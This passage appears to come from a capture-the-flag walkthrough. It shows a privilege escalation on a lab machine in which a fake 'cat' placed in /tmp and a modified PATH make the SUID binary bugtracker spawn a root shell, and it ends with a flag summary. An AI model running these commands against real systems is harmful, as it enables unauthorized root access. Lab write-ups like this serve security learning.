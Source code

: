 **SUID Binary Analysis:**
```bash
# Check permissions and file type
ls -la /usr/bin/bugtracker
file /usr/bin/bugtracker

# Results show:
# -rwsr-xr-- 1 root bugtracker 8792 Jan 25 2020 /usr/bin/bugtracker
# SUID bit set, owned by root
```

### Privilege Escalation Execution

**PATH Manipulation Exploit:**
```bash
# Create malicious cat binary in /tmp
cd /tmp
echo "/bin/sh" > cat
chmod +x cat

# Modify PATH to prioritize /tmp directory
export PATH=/tmp:$PATH

# Verify PATH modification
echo $PATH
# /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Execute bugtracker to trigger privilege escalation
/usr/bin/bugtracker

# Provide any input when prompted
# Result: Root shell obtained
```

---

## Flag Summary

| Flag ID | Associated Task | Capture Method | Difficulty |
|---------|----------------|----------------|------------|
| User Flag | Lateral Movement | Database credential reuse | 2/5 |
| Root Flag | Privilege Escalation | SUID PATH manipulation | 3/5 |

**User Flag Location:** `/home/robert/user.txt`  
**Root Flag Location:** `/root/root.txt`

---

## Lessons Learned

### Key Cybersecurity Concepts Reinforced
